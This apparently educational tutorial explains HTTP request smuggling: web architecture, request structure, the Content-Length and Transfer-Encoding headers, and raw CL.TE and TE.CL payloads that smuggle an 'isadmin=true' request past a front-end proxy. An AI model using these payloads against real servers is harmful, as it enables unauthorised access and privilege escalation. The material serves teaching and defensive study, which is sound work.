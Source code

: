 # HTTP REQUEST SMUGGLING

## Components of Modern Web Applications



Modern web applications are no longer straightforward, monolithic structures. They are composed of different components that work with each other. Below are some of the components that a modern web application usually consists of:

* Front-end server: This is usually the reverse proxy or load balancer that forwards the requests to the back-end.
* Back-end server: This server-side component processes user requests, interacts with databases, and serves data to the front-end. It's often developed using languages like PHP, Python, and Javascript and frameworks like Laravel, Django, or Node.js.
* Databases: Persistent storage systems where application data is stored. Examples of this are databases like MySQL, PostgreSQL, and NoSQL.
* APIs (Application Programming Interfaces): Interfaces allow the front and back-end to communicate and integrate with other services.
* Microservices: Instead of a single monolithic back-end, many modern applications use microservices, which are small, independent services that communicate over a network, often using HTTP/REST or gRPC.


## Understanding http request

* Request Line: The first line of the request POST /admin/login HTTP/1.1 is the request line. It consists of at least three items. First is the method, which in this case is "POST". The method is a one-word command that tells the server what to do with the resource. Second is the path component of the URL for the request. The path identifies the resource on the server, which in this case is "/admin/login". Lastly, the HTTP version number shows the HTTP specification to which the client has tried to make the message comply. Note that HTTP/2 and HTTP/1.1 have different structures.
* Request Headers: This section contains metadata about the request, such as the type of content being sent, the desired response format, and authentication tokens. It's like the envelope of a letter, providing information about the sender, receiver, and the nature of the content inside.
* Message Body: This is the actual content of the request. The body might be empty for a GET request, but for a POST request, it could contain form data, JSON payloads, or file uploads.

## Content-Length Header

The Content-Length header indicates the request or response body size in bytes. It informs the receiving server how much data to expect, ensuring the entire content is received.

## Transfer-Encoding Header

The Transfer-Encoding header specifies how the message body is formatted or encoded.




## Introduction to CL.TE request smuggling
To exploit the CL.TE technique, an attacker crafts a request that includes both headers, ensuring that the front-end and back-end servers interpret the request boundaries differently. For example, an attacker sends a request like:
```
POST /search HTTP/1.1
Host: example.com
Content-Length: 80
Transfer-Encoding: chunked

0

POST /update HTTP/1.1
Host: example.com
Content-Length: 13
Content-Type: application/x-www-form-urlencoded

isadmin=true
```

Here, the front-end server sees the Content-Length of 80 bytes and believes the request ends after  isadmin=true. However, the back-end server sees the Transfer-Encoding: chunked and interprets the 0 as the end of a chunk, making the second request the start of a new chunk. This can lead to the back-end server treating the POST /update HTTP/1.1 as a separate, new request, potentially giving the attacker unauthorized access.


## Introduction to TE.CL Technique

TE.CL stands for Transfer-Encoding/Content-LengthTo exploit the TE.CL technique, an attacker crafts a specially designed request that includes both the Transfer-Encoding and Content-Length headers, aiming to create ambiguity in how the front-end and back-end servers interpret the request.

```
POST / HTTP/1.1
Host: example.com
Content-Length: 4
Transfer-Encoding: chunked

4c
POST /update HTTP/1.1
Host: example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 15

isadmin=true
0
```
In the above payload, the front-end server sees the Transfer-Encoding: chunked header and processes the request as chunked. The 4c (hexadecimal for 76) indicates that the next 76 bytes are part of the current request's body. The front-end server considers everything up to the 0 (indicating the end of the chunked message) as part of the body of the first request.

The back-end server, however, uses the Content-Length header, which is set to 4. It processes only the first 4 bytes of the request, not including the entire smuggled request POST /update. The remaining part of the request, starting from POST /update, is then interpreted by the back-end server as a separate, new request.

The smuggled request is processed by the back-end server as if it were a legitimate, separate request. This request includes the isadmin=true parameter, which could potentially elevate the attacker's privileges or alter data on the server, depending on the application's functionality.








